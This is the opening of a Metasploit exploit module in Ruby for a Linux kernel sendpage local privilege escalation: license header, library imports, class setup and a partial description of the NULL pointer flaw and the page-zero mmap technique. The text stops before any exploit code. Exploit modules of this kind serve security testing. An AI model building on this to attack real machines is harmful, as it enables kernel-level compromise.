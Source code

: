 EXP
---

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # web site for more information on licensing and terms of use.
    #   http://metasploit.com/
    ##

    require 'msf/core'
    require 'rex'
    require 'msf/core/post/common'
    require 'msf/core/post/file'
    require 'msf/core/post/linux/priv'
    require 'msf/core/exploit/local/linux_kernel'
    require 'msf/core/exploit/local/linux'
    require 'msf/core/exploit/local/unix'

    #load 'lib/msf/core/post/file.rb'
    #load 'lib/msf/core/exploit/local/unix.rb'
    #load 'lib/msf/core/exploit/local/linux.rb'
    #load 'lib/msf/core/exploit/local/linux_kernel.rb'

    class Metasploit4 < Msf::Exploit::Local
        Rank = GreatRanking

        include Msf::Exploit::EXE
        include Msf::Post::File
        include Msf::Post::Common

        include Msf::Exploit::Local::LinuxKernel
        include Msf::Exploit::Local::Linux
        include Msf::Exploit::Local::Unix

        def initialize(info={})
            super( update_info( info, {
                    'Name'          => 'Linux Kernel Sendpage Local Privilege Escalation',
                    'Description'   => %q{
                        The Linux kernel failed to properly initialize some entries the
                        proto_ops struct for several protocols, leading to NULL being
                        derefenced and used as a function pointer. By using mmap(2) to map
                        page 0, an attacker can execute arbitrary code in the context of the
                        kernel.
